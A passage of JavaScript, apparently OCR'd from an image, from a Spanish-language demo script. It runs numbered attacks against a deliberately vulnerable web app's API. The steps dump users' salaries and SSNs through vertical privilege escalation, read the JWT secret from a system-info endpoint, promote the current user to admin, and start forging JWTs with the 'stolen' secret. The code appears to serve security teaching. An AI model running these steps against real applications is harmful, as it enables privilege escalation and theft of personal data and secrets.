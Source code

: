 ```javascript
        console.log(`   📋 ${user.username} (${user.role}) - $${user.profile?.salary} - SSN: ${user.profile?.ssn}`);
      });
      
    } catch (error) {
      console.log(`❌ Error en escalada vertical: ${error.message}`);
    }
  },
  
  async demonstrateDataExposure() {
    console.log("\n🔓 4. DEMOSTRANDO EXPOSICIÓN DE DATOS SENSIBLES");
    console.log("───────────────────────────────────────────────────────────────");
    
    try {
      const systemInfo = await api.getSystemInfo();
      console.log("✅ ¡INFORMACIÓN CRÍTICA DEL SISTEMA OBTENIDA!");
      console.log(`   🔑 JWT Secret: ${systemInfo.secret_key}`);
      console.log(`   🖥️ Servidor: ${systemInfo.server}`);
      console.log(`   👥 Admin users: ${systemInfo.admin_users?.join(', ')}`);
      console.log(`   🐛 Debug mode: ${systemInfo.debug_mode}`);
      
    } catch (error) {
      console.log(`❌ Error obteniendo system info: ${error.message}`);
    }
  },
  
  async demonstrateRoleManipulation() {
    console.log("\n👑 5. DEMOSTRANDO MANIPULACIÓN DE ROLES");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    
    if (currentUser?.role !== 'admin') {
      try {
        console.log(`🚀 Intentando auto-promoción a admin para: ${currentUser?.username}`);
        await api.updateUserRole(currentUser.id, 'admin');
        console.log("✅ ¡AUTO-PROMOCIÓN EXITOSA! Recarga la página para usar privilegios de admin.");
        
      } catch (error) {
        console.log(`❌ Error en auto-promoción: ${error.message}`);
      }
    } else {
      console.log("👑 Ya eres admin - probando promoción de otros usuarios");
      
      try {
        await api.updateUserRole(2, 'admin');
        console.log("✅ Usuario 2 promovido a admin");
      } catch (error) {
        console.log(`❌ Error promoviendo usuario: ${error.message}`);
      }
    }
  },
  
  async demonstrateJWTExploitation() {
    console.log("\n🎫 6. DEMOSTRANDO EXPLOTACIÓN DE JWT");
    console.log("───────────────────────────────────────────────────────────────");
    
    // Obtener secret del sistema
    try {
      const systemInfo = await api.getSystemInfo();
      const stolenSecret = systemInfo.secret_key;
      
```